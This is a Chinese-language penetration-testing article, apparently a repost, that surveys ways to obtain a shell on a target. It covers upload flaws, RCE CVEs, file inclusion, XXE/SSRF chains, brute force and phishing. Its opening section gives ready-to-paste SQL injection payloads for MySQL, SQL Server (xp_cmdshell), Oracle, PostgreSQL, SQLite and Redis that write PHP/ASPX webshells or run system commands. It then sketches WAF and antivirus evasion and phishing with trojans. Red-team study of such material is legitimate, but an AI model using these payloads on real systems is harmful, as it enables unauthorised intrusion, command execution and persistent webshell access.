


渗透测试-Getshell总结
无论是常规渗透测试还是攻防对抗，亦或黑灰产对抗、APT攻击，getshell 是一个从内到外的里程碑成果。我们接下来总结下常见拿shell的一些思路和方法。文中可能有一些不足之处，还望大佬不吝赐教。

0x01 注入getshell
一般前提条件：有权限、知道路径
mysql
select 0x3c3f70687020a6576616c28245f504f53545b615d293ba3f3e into outfile '/var/www/html/1.php'
Sql server
存储过程xp_cmdshell
;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > D:\\WWW\\2333.aspx' ;--
Oracle
1、创建JAVA包
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
2、JAVA权限
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;') from dual;
3、创建函数
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
URL执行
id=602'||utl_inadd.get_host_name((select LinxRUNCMD('cmd /c dir d:/') from dual))--
postgresql
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
sqlite3
;attach database 'D:\\www\\008.php' as tt;create TABLE tt.exp (dataz text) ; insert INTO tt.exp (dataz) VALUES (x'3c3f70687020406576616c28245f504f53545b27636d64275d293b3f3e');
redis
%0D%0Aconfig%20set%20dir%20%2Fvar%2Fwww%2Fhtml2F%0D%0Aconfig%20set%20dbfilename%20shell%2Ephp%0D%0Aset%20x%2022%3C%3Fphp%20phpinfo%28%29%3B%%203F%3E%22%0D%0Asave%0D%0A
PS：oracle成功率受限于与数据库版本以及注入点
当然注入不一定都能拿到webshell，比如站库分离。但不管是否站库分离，只要权限够能够执行系统命令，反弹cmdshell 也是不错的选择。比如sa权限结合xp_cmdshell 存储过程，直接执行powershell,反弹到cobalt strike …
0x02 上传 getwebshell
上传漏洞对于getshell 还是高频的，无论是前台上传点，还是后台（通过口令进入、或者XSS到后台、逻辑漏洞越权）上传点，当然也有可能要结合一些Web Server的解析漏洞。但像IIS和apache解析漏洞因为太老，现在成功概率都小很多。
类似直接的上传漏洞就可以getshell的漏洞，例如IIS PUT上传、Tomcat PUT 上传，因为落脚点最终都跟上传有关系，这个就不单独去枚举。
还有一批像一些编辑器（FCK、editor、CKedtor…）存在上传漏洞可以getshell。这一系列，一般是基于信息收集确定是否存在漏洞，然后进一步利用。（发现漏洞比利用漏洞更艺术）
这个期间可能涉及逻辑绕过、WAF对抗、杀软绕过、执行层，主要解决四点：
代码或逻辑问题，可以上传脚本文件
躲过WAF对脚本文件及上传内容的校验
解决落地杀
执行过程，躲过流量监控或者系统层监控
同样RCE 也需要关注以上后几点，因为前面的入口场景不同。
0x03 RCE getshell
RCE是统称，包括远程代码执行、远程命令执行。当然这两个概念还是有意思的，比如struts2漏洞有的叫命令执行有的叫代码执行。这都不重要。一般根据触发点来命名。
Java系的OGNL 表达式注入、EL注入、反序列化
PHP系列的eval 类、伪协议类 代码执行、system类命令执行
当然反序列化漏洞基本上编程语言都有，除了漏洞利用getshell，用作免杀后门webshell也是一个不错的思路推荐。
正由于代码执行的部分结果是执行了系统命令，在命令执行的加持下，可以直接拿到应用或系统的shell，也是正统策略。
根据《2019年Web应用安全年度报告》，高频系列27个漏洞漏洞（这些漏洞都值得深入分析及利用），大部分为远程代码执行，同时RCE系列，Java 组件也占比最大。

列表如下：
Harbor API SQL注入(CVE-2019-19026/CVE-2019-19029)
Thinkcmf任意内容包含远程代码执行
泛微E-cology OA数据库配置信息泄漏
Fastjson远程拒绝服务
GhostScript远程代码执行(CVE-2019-14811)
泛微E-cology OA系统远程代码执行
Apache Solr远程代码执行(CVE-2019-0193)
FasterXML jackson-databind远程代码执行(CVE-2019-14439)
FasterXML jackson-databind远程代码执行(CVE-2019-12384)
FasterXML jackson-databind远程代码执行(CVE-2019-14379)
Xstream远程代码执行(CVE-2019-10173)
致远OA A8前台getshell
Apache axis远程代码执行
CoreMail未授权访问接口参数注入
Weblogic远程代码执行(CVE-2019-2729)
Weblogic远程代码执行(CVE-2019-2725)
Confluence远程代码执行(CVE-2019-3398)
Confluence远程代码执行(CVE-2019-3396)
Ruby On Rails任意文件读取(CVE-2019-5418)
Jenkins远程代码执行(CVE-2019-1003030)
ColdFusion远程代码执行(CVE-2019-7091)
Spring Boot Actuator远程代码执行
Drupal8 REST Module远程代码执行(CVE-2019-6340)
Jenkins远程代码执行(CVE-2019-1003000)
Apache Solr远程代码执行(CVE-2019-17558)
Fastjson远程代码执行
Jenkins远程代码执行(CVE-2019-1003000)
以上漏洞利用总结，可私M
0x04 包含getwebshell
文件包含，常见JSP、ASPx、PHP 都有包含，但主要还是PHP的包含好用。因为可以包含任意路径的任意后缀，能控制include类函数的输入结合系统特性文件或者上传的文件结合，可以拿到webshell。
JSP包含，默认情况下动态包含WEB路径下的JSP文件（静态包含可以包含任意后缀的文本文件，但不支持变量动态赋值暂不说明），2月份的CVE-2020-1938 Tomcat 文件包含漏洞，这个漏洞看上去是包含了任意格式的文件，但其实是因为AJP协议。
更多文件包含冷知识，参考 原贴
0x05 漏洞组合拳getshell
绕过既有认证+后台漏洞
口令猜测是门艺术活，进入后台多种漏洞的利用，包括前面提到的漏洞常见高危系列，还有一些备份还原、导入导出、 模板编辑等功能。
登录逻辑绕过、越权类，搞定后台。进行典型漏洞利用
通过XSS钓到cookie，或者利用CSRF类漏洞“借刀杀人”搞到后台权限。进行典型漏洞利用。
网站后台Getshell的方法总结
XXE
XXE漏洞，最理想的状态就是直接可以代码执行（类似PHP expert）；大多数还是以文件读取信息收集为主，结合源码或者配置文件（例如/etc/shadow、tomcat-users.xml等）getshell；还可以通过XXE的SSRF进行隔山打牛式getshell。
当然对于漏洞挖掘来讲，无论是xml格式还是json格式的POST数据包都值得多关注下。说不定就有惊喜呢。
SSRF + RCE
原理上SSRF可以结合所有RCE（反序列化、s2、mysql … ；github 搜索SSRFmap、ssrf_proxy）的漏洞进行组合利用，只是我们在平常实例角度用SSRF+redis未授权用的多一些。
任意文件读取Getshell
正常的一般是通过读取web.xml 获取class文件，然后反编译，找到代码的一些漏洞。进而拿到系统的权限。当然还有文件读取加文件上传的曲折配合（任意文件读取漏洞的曲折历程）
0x06 系统层getcmdshell
暴力破解的艺术，毕竟锤子开锁和要是开锁在入侵角度结果是一样的。
常规协议：SSH、RDP、SMB、VPC、Redis 等中间件类
通过数据库执行语句获得了系统shell，对于获取权限，比sql注入更直接。
设备层：VPN、防火墙，搞定这种边界设备，单车变摩托。
0x07 钓鱼 getcmdshell
发送钓鱼邮件，捆绑的马，访问即加载、点击即执行类的马。
这一类攻击一般结合社工，例如借用IT管理员发送或某领导的账号去发送（所以这时候的邮箱的0day就灰常重要了，当然如果在邮箱内部找到类似VPN或者密码表类，也不需要这么麻烦，一把梭…），可信度就高很多。对于红队来讲，钓的鱼儿还是以IT部门系列为主，普通办公区的主机权限还需要做更多的工作。
0x08 红队shell竞争分析
拼信息收集，漏洞点，别人找不到，我找的到（例如移动端、物联网等接口信息，当然这种shell，一般距离核心应用可能也远一些）；
拼利用速度，自动化一条龙（基本属于日常漏洞和工程化的积累）；
拼0day （VPN --- Mail --- OA --- java组件 --- CMS --- 关键设备 ）；
拼细节漏洞，组合利用。（这是一篇“不一样”的真实渗透测试案例分析文章 ）
以上为本次所感所想，当然除了这种按照漏洞类型大类去分类，还有一些具体的漏洞也可以直接getshell，本次分析意义，就是在没有思路的时候，有个相对体系性思考框架。毕竟储备充足才会看上去像运气一样水到渠成，其实都是局部真相。

点赞，转发，在看
参考来源：先知社区
Author: sm0nk@深蓝攻防实验室
如有侵权，请联系删除